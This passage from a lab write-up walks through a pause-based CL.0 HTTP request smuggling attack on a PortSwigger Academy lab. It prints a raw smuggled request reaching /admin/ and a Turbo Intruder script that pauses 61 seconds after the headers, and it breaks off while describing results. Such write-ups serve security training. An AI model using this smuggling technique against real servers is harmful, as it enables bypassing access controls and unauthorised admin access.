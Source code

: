 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226182855.png)

As you can see, it's redirecting us to `/resources/`.

**To exploit pause-based CL.0, we first create a CL.0 attack request:**
```http
POST /resources HTTP/1.1
Host: 0ad4008d0447beb8c01f2c810045009b.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: 0ad4008d0447beb8c01f2c810045009b.web-security-academy.net


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193518.png)

**Then, send that request to "Turbo Intruder":**

> Note: I tried to write a Python script to do that, however I wasn't able to send raw HTTP request. No idea why.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226191721.png)

**Then modify the Python script to the following code:**
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

This issues the request twice, pausing for 61 seconds after the `\r\n\r\n` sequence at the end of the headers.

**Launch the attack:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226191907.png)

Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:

- The first entry is the `POST /resources` request, which triggered a redirect to `/resources/` as normal:
